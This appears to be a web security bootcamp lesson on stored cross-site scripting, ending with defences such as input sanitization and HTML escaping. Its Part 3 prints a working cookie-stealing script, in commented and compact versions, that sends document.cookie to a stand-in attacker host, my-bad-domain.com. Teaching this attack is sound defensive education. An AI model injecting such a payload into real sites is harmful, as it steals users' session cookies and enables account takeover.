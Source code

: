 # 9.2.1: XSS

## XSS

XSS stands for Cross-Site Scripting. This is a vulnerability where a malicious attacker is allowed to save a snippet of JavaScript in the system that will be displayed later.

When that snippet is run on other site visitors browsers, the attacker can run a number of different kinds of insecure programs.

Here is how we would implement an XSS attack:

#### XSS Part 1 - Saving unsanitized user input

The first part of an XSS attack is the ability of an attacker to save JavaScript into the database.

```javascript
<script>alert('hey!')</script>
```

If we paste this HTML snippet directly into the form input it will be saved to the database.

![](../../.gitbook/assets/xss-form.png)

#### XSS Part 2 - Displaying unsanitized user input

Once this "cat" record has been saved to the database, any user who navigates to a page displaying this "cat" will run the JavaScript snippet above.

![](../../.gitbook/assets/xss-alert.png)

#### XSS Part 3 - Capturing and sending user session cookies

Now that we have the ability to run arbitrary JavaScript for every user who visits the site, we can do malicious things. One of the worst might be to steal the session cookie of any logged in user.

In order to do that we need to save a particular kind of JavaScript, one that gets a hold of the user's cookie and sends it to a server we control.

Commented Version:

```javascript
<script>
  // don't do an AJAX request in case there are CORS issues
  var allCookies = document.cookie; 
  // create an image tag
  var imgEl = document.createElement('img');
  // setting the img src causes the browser to try and request from this domain 
  imgEl.src = 'http://my-bad-domain.com?' + allCookies;
</script>
```

Compact Version:

```javascript
<script>
  var allCookies = document.cookie;
  var imgEl = document.createElement('img');
  imgEl.src = 'http://my-bad-domain.com?' + allCookies;
</script>
```

Open the network tab and notice how all the cookie information is being sent to the malicious server.

![](../../.gitbook/assets/xss-cookie.png)

### XSS Solutions

In the example app this XSS attack was facilitated by 2 parts of the code:

**1. No validation of the user's inputs.**

Ideally the app would never allow a user to enter any text into the cat name field that resembles code.

An easy implementation to guard against this is to use one of many common NPM libraries made for this purpose. [xss](https://www.npmjs.com/package/xss) is one of the most popular.

Note that string sanitization so that it is guaranteed not to contain JavaScript is a very hard problem to solve. See this example here: [https://dev.to/catmcgeecode/code-anything-in-javascript-with-only-8-characters-5ghp](https://dev.to/catmcgeecode/code-anything-in-javascript-with-only-8-characters-5ghp)

**2. No sanitization of the display of the database values.**

In this special express app we are not running EJS. When we print out the values from the database our code will directly generate HTML tags that will be interpreted by the browser.

See the code here: [https://github.com/rocketacademy/express-security-bootcamp/blob/main/index.js#L320](https://github.com/rocketacademy/express-security-bootcamp/blob/main/index.js#L320)

If we had used EJS, the code's characters would be displayed on the screen, instead of being interpreted by the browser. This is called HTML character escape. Most modern view / HTML generation libraries will provide this functionality built-in. However, character escape does not always keep the app safe from XSS. The other measures already mentioned should still be implemented.

